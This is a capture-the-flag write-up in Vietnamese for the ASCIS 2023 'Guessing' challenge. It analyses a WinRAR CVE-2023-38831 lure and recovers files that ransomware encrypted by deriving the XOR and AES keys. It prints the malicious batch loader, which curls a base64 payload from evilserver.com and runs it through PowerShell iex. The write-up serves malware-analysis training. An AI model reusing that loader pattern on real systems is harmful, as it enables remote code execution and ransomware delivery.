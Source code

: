 # ASCIS2023_Guessing

> Challenge: Guessing - Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.

## [0]. Digital Forensics

- Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar (cve winrar CVE-2023-38831) khá nổi gần đây :v. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

- Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

- Decode nội dung và ta có được 1 script powershell bị obfuscate:

![1.png](./images/1.png)

- Mình dùng `PSDecode` để deobfuscate:

![2.png](./images/2.png)

- Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

- Tuy nhiên ta không có file `final report`, mình ngồi thử với các header của file docx, pdf,....nhưng không khả quan, nên mình bỏ hướng này. Tuy nhiên khi mình load vào `pebear` cùng 1 vài sample PE 64 bit khác, mình để ý:

![3.png](./images/3.png)

- Phần entry point của file này bắt đầu bằng 5 bytes 0, khá lạ, trong khi các file khác thì đều bắt đầu với dãy `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15`, mình đem đi xor thử:

![4.png](./images/4.png)

- Để ý thấy `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần, mình đoán chắc rằng đây là xor key, mình xor thẳng lại với panpan.exe:

```
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

- Và load được vào ida mà không bị lỗi :v Nice. Mình tìm đến hàm main.

## [1]. Reverse Engineering

- Hàm main của chương trình:

![5.png](./images/5.png)

- Sau 1 khoảng thời gian rất lâu đọc code:v, mình hiểu nó thực thi như sau:

  - 1. GET data từ root của evilserver, sau đó dùng 1 hàm để decode base64. Data này dễ dàng thấy trong tcp stream 7.

  - 2. xor decoded data ở trên với 8 bytes lấy từ file `version.txt`.

  - 3. Dùng kết quả xor này, sẽ dùng để tạo key, iv,....các thứ, sau đó encrypt ảnh SensitiveData.png lại.

- Vì không có file version.txt, ta buộc phải tự tìm lại key. Mình để ý tới hàm `CryptImportKey`, như bước thứ 3 mình nếu trên, kết quả của xor chính là dùng trong hàm này. hàm này sẽ phải khởi tạo PUBLICKEYSTRUC BLOB header trước, xong mới đến các thông tin khác. Dựa vào Blob, mình sẽ retrieve lại key như này:

  - Đầu tiên là 1 byte key blob type. Theo doc của microsoft, key blob type có 8 loại. Cái này mình sẽ bruteforce vì mình không biết key là loại nào.

  - Tiếp đến là 1 byte version, mà theo mình đọc thì nó thường được set = 0x02:

![6.png](./images/6.png)

- 2 bytes reversed, theo như doc của microsoft thì `must be set to zero`, vậy là mình có 0x0000.

- Tiếp là 4 bytes ALG_ID lưu dưới dạng little endian, như đã nói trên, ở dưới mình thấy có hàm `CryptSetKeyParam` set các giá trị như cipher mode, padding mode, iv các thứ. Từ đó mình đoán rằng mã hóa này là AES, nhưng key length không rõ, nên mình sẽ thử ALG_ID của tất cả các loại length AES.

- Mình brute thử key, trong quá trình brute mình để ý toàn bộ key đều là ASCII hết:

![7.png](./images/7.png)

- Từ đó mình rút ra type sẽ là `PLAINTEXTKEYBLOB`, tức byte đầu = 0x08. Rút ngắn phạm vi :v, vì là ASCII hết nên mình in thẳng char và được 4 key còn lại như này:

![8.png](./images/8.png)

- :)) Key đầu hơi hơi meaningful, hợp lý hóa hơn thì nó là key tương ứng với ALG_ID của AES_256, đúng ý mình. Mình sẽ thử với xorkey này luôn.

Sau khi xor mình được pbData mới sẽ là : `0802000010660000200000009d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53c5bb3a7478ba51be09b9e8f6892fabb3`

> Mình tìm hiểu cả ngày cũng không hiểu đoạn thừa `20000000` sau blob là cái gì, nhưng nghĩ làm gì có key nào bắt đầu đầy 00 00 thế kia nên mình bỏ qua luôn 💀.

- Dựa vào dòng 47 trong main, ta lấy IV là 16 bytes cuối pbData, còn key thì như nói trên, mình skip đoạn `20000000` và lấy 32 bytes, vừa hay là nó vừa khít length của pbData khai báo trong hàm `CryptImportKey`. Decrypt với iv và key như vậy, mình khôi phục lại được ảnh và lấy flag:

![9.png](./images/9.png)

- Flag: `ASCIS{What?_PANCHAM_1s_3v0lving!}`
